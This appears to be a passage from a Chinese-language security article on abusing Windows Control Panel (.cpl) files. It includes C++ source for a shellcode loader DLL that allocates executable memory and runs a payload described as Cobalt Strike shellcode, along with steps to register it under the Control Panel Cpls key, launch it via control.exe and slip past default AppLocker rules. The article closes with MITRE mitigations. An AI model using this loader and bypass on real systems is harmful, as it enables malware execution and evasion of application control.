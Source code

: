  ****  

同样我 们也可以加载CS的shellcode  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "pch.h"#include "windows.h"  
      
    extern "C" __declspec(dllexport) VOID CPlApplet(HWND hwndCPl, UINT msg, LPARAM lParam1, LPARAM lParam2){                  MessageBoxA(0, NULL, "test", MB_OK);                  /* length: 835 bytes */                  unsigned char buf[] = "shellcode";                LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);                   memcpy(Memory, buf, sizeof(buf));                   ((void(*)())Memory)();}BOOL APIENTRY DllMain( HMODULE hModule,                                         DWORD  ul_reason_for_call,                                         LPVOID lpReserved                                                       ){                switch (ul_reason_for_call)           {           case DLL_PROCESS_ATTACH:           case DLL_THREAD_ATTACH:           case DLL_THREAD_DETACH:           case DLL_PROCESS_DETACH:                   break;            }                return TRUE;}

  

将其注册到HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\Cpls

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210914114226.png)

  

启动control.exe，就可以执行我们的cpl

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210914114228.png)

#  **bypass Windows AppLocker**

AppLocker即“应用程序控制策略”，是Windows 7系统中新增加的一项安全功能。在win7以上的系统中默认都集成了该功能。

  

默认的Applocker规则集合,可以看到cpl并不在默认规则中:

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210914114229.png)

  

  

 **缓解措施**  

##  **M1038**

执行预防 在适当的情况下，使用应用程序控制工具（如 Windows Defender
应用程序控制、AppLocker、或软件限制策略）识别和阻止潜在的恶意和未知 .cpl 文件。

##  **M1022**

